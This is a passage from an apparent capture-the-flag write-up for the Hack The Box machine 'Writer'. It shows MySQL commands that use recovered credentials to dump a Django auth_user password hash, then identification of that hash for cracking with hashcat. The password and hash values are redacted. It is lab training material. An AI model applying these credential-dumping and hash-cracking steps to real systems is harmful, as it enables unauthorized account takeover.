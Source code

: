 ## MySQL Enumeration

Using the creds I enumerated the mysql server to find a user hash:

```sh
www-data@writer:/etc/mysql$ mysql -u djangouser -p<HIDDEN> -e 'show databases;'
+--------------------+
| Database           |
+--------------------+
| dev                |
| information_schema |
+--------------------+

www-data@writer:/etc/mysql$ mysql -u djangouser -p<HIDDEN> -e 'show tables;'
+----------------------------+
| Tables_in_dev              |
+----------------------------+
| auth_group                 |
| auth_group_permissions     |
| auth_permission            |
| auth_user                  |
| auth_user_groups           |
| auth_user_user_permissions |
| django_admin_log           |
| django_content_type        |
| django_migrations          |
| django_session             |
+----------------------------+

www-data@writer:/etc/mysql$ mysql -u djangouser -p<HIDDEN> -e 'select * from auth_user;'
+----+------------------------+------------+--------------+----------+------------+-----------+-----------------+----------+-----------+----------------------------+
| id | password               | last_login | is_superuser | username | first_name | last_name | email           | is_staff | is_active | date_joined                |
+----+------------------------+------------+--------------+----------+------------+-----------+-----------------+----------+-----------+----------------------------+
|  1 | pbkdf2_sha256$<HIDDEN> | NULL       |            1 | kyle     |            |           | kyle@writer.htb |        1 |         1 | 2021-05-19 12:41:37.168368 |
+----+------------------------+------------+--------------+----------+------------+-----------+-----------------+----------+-----------+----------------------------+
```

## Hashcat

Let's take the hash and crack it:

```sh
┌──(root💀kali)-[~/htb/writer]
└─# echo "pbkdf2_sha256<SNIP>6l5dpuXM4A=" > hash.txt

┌──(root💀kali)-[~/htb/writer]
└─# nth --file hash.txt 
  _   _                           _____ _           _          _   _           _     
 | \ | |                         |_   _| |         | |        | | | |         | |    
 |  \| | __ _ _ __ ___   ___ ______| | | |__   __ _| |_ ______| |_| | __ _ ___| |__  
 | . ` |/ _` | '_ ` _ \ / _ \______| | | '_ \ / _` | __|______|  _  |/ _` / __| '_ \ 
 | |\  | (_| | | | | | |  __/      | | | | | | (_| | |_       | | | | (_| \__ \ | | |
 \_| \_/\__,_|_| |_| |_|\___|      \_/ |_| |_|\__,_|\__|      \_| |_/\__,_|___/_| |_|

pbkdf2_sha256<SNIP>6l5dpuXM4A=

Most Likely 
Django(PBKDF2-HMAC-SHA256), HC: 10000 JtR: django
```
